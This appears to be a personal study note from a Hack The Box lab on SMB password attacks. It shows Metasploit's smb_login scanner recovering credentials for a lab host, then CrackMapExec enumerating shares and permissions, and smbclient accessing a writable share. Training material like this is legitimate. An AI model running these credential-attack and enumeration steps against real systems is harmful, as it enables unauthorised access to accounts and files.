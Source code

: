 ```Shell-session

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- Now it is possible to use CrackMapExec again to view the available shares and what privileges we have for them
```Shell-session
00818@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares

SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password 
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE      
SMB         10.129.42.197   445    WINSRV           IPC$            READ   
```

- To communicate with the server via SMB we can use the tool [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) 
- This tool will let us view the contents of the share and uploads and other shit
```Shell-session
00818@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME

Enter WORKGROUP\user's password: *******

Try "help" to get a list of possible commands.


smb: \> ls
  .                                  DR        0  Thu Jan  6 18:48:47 2022
  ..                                 DR        0  Thu Jan  6 18:48:47 2022
  desktop.ini                       AHS      282  Thu Jan  6 15:44:52 2022

                10328063 blocks of size 4096. 6074274 blocks available
smb: \> 
```

- Download the wordlists from HTB

[[CrACK.ch]] 

[[Passaword_Mutations]]